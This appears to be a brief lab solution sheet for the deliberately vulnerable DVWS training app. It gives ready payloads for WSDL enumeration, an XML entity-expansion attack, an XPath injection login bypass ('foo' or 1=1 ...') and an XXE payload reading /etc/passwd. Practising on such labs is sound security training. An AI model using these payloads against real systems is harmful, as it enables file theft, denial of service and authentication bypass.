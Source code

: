 ### WSDL Enumeration
URL: dvws/vulnerabilities/wsdlenum/service.php?wsdl

check_user_id with value root

### WSDL Scanning 
* Load the check_user_information envelope into Intruder
* select username space 
* add username lists to payload


### XML External Entity Injection
URL : /dvws/vulnerabilities/xxe/

[XML Entity Expansion]

```
<!DOCTYPE foo [<!ENTITY xee1 "hacking web apps is fun "><!ENTITY xee2 "&xee1;&xee1;"><!ENTITY xee3 "&xee2;&xee2;"><!ENTITY xee4 "&xee3;&xee3;">]><name>&xee4;</name>
```

### XPATH Injection
URL: /dvws/vulnerabilities/xpath/xpath.php 
* username: foo' or 1=1 or 'a'='a 
* password: bar


### XXE 2
payload

``` 
<!DOCTYPE foo [<!ENTITY xxe2q1pa SYSTEM "file:///etc/passwd"> ]><uservalue>
<value>DVWS&xxe2q1pa;</value>
</uservalue>
```
